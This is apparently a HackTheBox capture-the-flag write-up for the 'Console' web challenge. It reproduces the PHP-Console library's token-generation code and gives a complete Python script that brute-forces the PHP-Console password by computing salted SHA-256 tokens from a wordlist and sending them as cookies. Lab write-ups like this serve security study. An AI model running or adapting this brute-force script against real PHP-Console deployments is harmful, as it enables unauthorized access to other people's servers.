








+++
title = "Console"
date = 2020-06-18
[taxonomies]
tags = ["hackthebox"]
+++

1. "Could you please check the console of your Chrome?"

	Upon investigating the URL, it showed a php info status page which hinted to load php-console in order to be prompted for a password. At first I didn't know what this meant until I read the hints about downloading a chrome extension.
	
	
	
	
	
	Prior before knowing about the Chrome extension, I intercepted some HTTP requests to see what it looks like.

	
	
	As you can see, nothing really interesting is found. Now if you used the PHP-Console extension, you see extra HTTP headers added to the HTTP request.
	
	
	
	I noticed how the `php-console-client` cookie parameter was base64 encoded so I decoded it.
	
	
	
	There we go, a token parameter is found. It's starting to make some sense now of what I need to do. I thought about two questions, first is how can I generate a token? I know that the Chrome extension accepts a password for login but how would I streamline the process to brute force with a dictionary? The second question is, how is a token created? What data type is it using? Is it encrypted? The only way answer these questions is looking at the source code.

2.	Looking at the source code of PHP-Console application, there is an interesting `auth.php` file that handles [token generation](https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php).

	```php
	<?php
	
	namespace PhpConsole;
	
	/**
	* PHP Console client authorization credentials & validation class
	*
	* @package PhpConsole
	* @version 3.1
	* @link http://consle.com
	* @author Sergey Barbushin http://linkedin.com/in/barbushin
	* @copyright © Sergey Barbushin, 2011-2013. All rights reserved.
	* @license http://www.opensource.org/licenses/BSD-3-Clause "The BSD 3-Clause License"
	* @codeCoverageIgnore
	*/
	class Auth {
	
	const PASSWORD_HASH_SALT = 'NeverChangeIt:)';
	
	protected $publicKeyByIp;
	protected $passwordHash;
	
	/**
	 * @param string $password Common password for all clients
	 * @param bool $publicKeyByIp Set public key depending on client IP
	 */
	public function __construct($password, $publicKeyByIp = true) {
		$this->publicKeyByIp = $publicKeyByIp;
		$this->passwordHash = $this->getPasswordHash($password);
	}
	
	protected final function hash($string) {
		return hash('sha256', $string);
	}
	
	/**
	 * Get password hash like on client
	 * @param $password
	 * @return string
	 */
	protected final function getPasswordHash($password) {
		return $this->hash($password . self::PASSWORD_HASH_SALT);
	}
	
	/**
	 * Get authorization result data for client
	 * @codeCoverageIgnore
	 * @param ClientAuth|null $clientAuth
	 * @return ServerAuthStatus
	 */
	public final function getServerAuthStatus(ClientAuth $clientAuth = null) {
		$serverAuthStatus = new ServerAuthStatus();
		$serverAuthStatus->publicKey = $this->getPublicKey();
		$serverAuthStatus->isSuccess = $clientAuth && $this->isValidAuth($clientAuth);
		return $serverAuthStatus;
	}
	
	/**
	 * Check if client authorization data is valid
	 * @codeCoverageIgnore
	 * @param ClientAuth $clientAuth
	 * @return bool
	 */
	public final function isValidAuth(ClientAuth $clientAuth) {
		return $clientAuth->publicKey === $this->getPublicKey() && $clientAuth->token === $this->getToken();
	}
	
	/**
	 * Get client unique identification
	 * @return string
	 */
	protected function getClientUid() {
		$clientUid = '';
		if($this->publicKeyByIp) {
			if(isset($_SERVER['REMOTE_ADDR'])) {
				$clientUid .= $_SERVER['REMOTE_ADDR'];
			}
			if(isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
				$clientUid .= $_SERVER['HTTP_X_FORWARDED_FOR'];
			}
		}
		return $clientUid;
	}
	
	/**
	 * Get authorization session public key for current client
	 * @return string
	 */
	protected function getPublicKey() {
		return $this->hash($this->getClientUid() . $this->passwordHash);
	}
	
	/**
	 * Get string signature for current password & public key
	 * @param $string
	 * @return string
	 */
	public final function getSignature($string) {
		return $this->hash($this->passwordHash . $this->getPublicKey() . $string);
	}
	
	/**
	 * Get expected valid client authorization token
	 * @return string
	 */
	private final function getToken() {
		return $this->hash($this->passwordHash . $this->getPublicKey());
	}
	}
	```
	
	After reviewing the code, I figured out the token is salted and using sha256 to generate the token. It was a matter of creating a brute forcing python script to figure out what is the actual password to log into PHP-Console Chrome extension.
	
	```python
	import requests
	from hashlib import sha256
	from base64 import b64encode
	import json
	
	url = "http://docker.hackthebox.eu:31828"
	
	# publickey found in the PHP-Console HTTP header
	publickey = "d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e"
	
	# Open rockyou.txt file in read mode
	file = open("./rockyou.txt","r")
	
	# Create for loop to iterate through each entry in rockyou.txt
	for x in range(1000):
	   word = file.readline().strip()
	
	   # For every line in rockyou.txt, append the salt to prepare to later create the hash
	   password = word + "NeverChangeIt:)"
	
	   # return hash('sha256', $string);
	   # In the auth.php, it uses sha256 to create the hash using the string + salt.
	   hash = sha256(password.encode()).hexdigest()
	
	   # return $this->hash($this->passwordHash . $this->getPublicKey());
	   # Also it uses the sha256 salted hash with the publickey to generate another sha256 hash for the token.
	   token = sha256((hash + publickey).encode()).hexdigest()
	
	   # Now start putting together the HTTP GET request starting with the HTTP header paramters
	   phpconsoleclient = '{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"' + str(token) + '"}}'
	
	   # The original GET request has encoded php-console-client into base64, this step is doing the same thing. The decode function changes the object type
	   # from bytes to string.
	   phpconsoleclient = b64encode(phpconsoleclient.encode()).decode()
	
	   # Add all the cookies required in the original GET request.
	   cookies = 'php-console-server=5; php-console-client=' + str(phpconsoleclient)
	
	   # Create a python dictionary object to store the header parameters
	   headers = { 'Cookie' : cookies }
	
	   # Create HTTP GET request with url and HTTP headers
	   r = requests.get(url, headers=headers)
	
	   # Append php-console to the GET request HTTP header
	   phpconsoleclient = r.headers['PHP-Console']
	   phpconsoleclient = json.loads(phpconsoleclient)
	
	   # Print the word in the current interation when isSuccess equals to True. This is the word that will allow access to PHP-Console chrome plugin.
	   status = phpconsoleclient["auth"]["isSuccess"]
	   if(status != False):
	       print(word)
	       break
	
	# close rockyou.txt
	file.close()
	```
	
	Running the python script will uncover the password and upon PHP-Console login, the flag can be found in the Chrome console.
	
	
	
	
	
	